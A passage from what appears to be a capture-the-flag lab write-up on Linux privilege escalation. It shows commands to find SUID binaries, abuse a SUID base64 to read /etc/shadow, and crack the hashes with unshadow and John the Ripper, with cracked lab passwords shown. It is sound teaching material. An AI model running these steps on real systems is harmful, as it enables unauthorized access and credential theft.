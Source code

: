We can't run this exploit on the target machine since the option `env_keep` is not set.

## Privilege Escalation: SUID

If you want to allow regular users to execute privileged actions, you can use the "Set owner User ID upon execution" (SUID) permission on the executable file. This action allows any user to execute the file with root privileges. However, some SUID programs execute as non-root users

Use this command to list files that have SUID or SGID bits set.
```bash
$ find / -type f -perm -04000 -ls 2>/dev/null
-rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
```

We can [base64 SUID abuse](https://gtfobins.github.io/gtfobins/base64/#suid) to allow us to read files

```bash
LFILE=/home/ubuntu/flag3.txt
$ cd /usr/bin
$ ./base64 "$LFILE" | base64 --decode
THM-3847834
```

Change the LFILE variable to whatever file you wish to read.
```bash
LFILE=/etc/shadow
$ ./base64 "$LFILE" | base64 --decode
```

View both the `etc/shadow` and `etc/passwd`, then crack the user's password using the `unshadow` tool. 
```bash
unshadow passwd.txt shadow.txt > hash.txt
                                                                        
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt         
                                                                                      
└─$ john --show hash.txt
gerryconway:test123:1001:1001::/home/gerryconway:/bin/sh
user2:Password1:1002:1002::/home/user2:/bin/sh
karen:Password1:1003:1003::/home/karen:/bin/sh

3 password hashes cracked, 0 left
    
```

## Privilege Escalation: Capabilities

**What Are Linux Capabilities?**

In traditional Unix systems, processes run as either:
- Root (full privileges)
- Non-root (limited privileges)

Linux capabilities break up the full set of root privileges into smaller, fine-grained privileges that can be independently assigned to processes or binaries. This allows a non-root process to perform certain actions usually reserved for root.
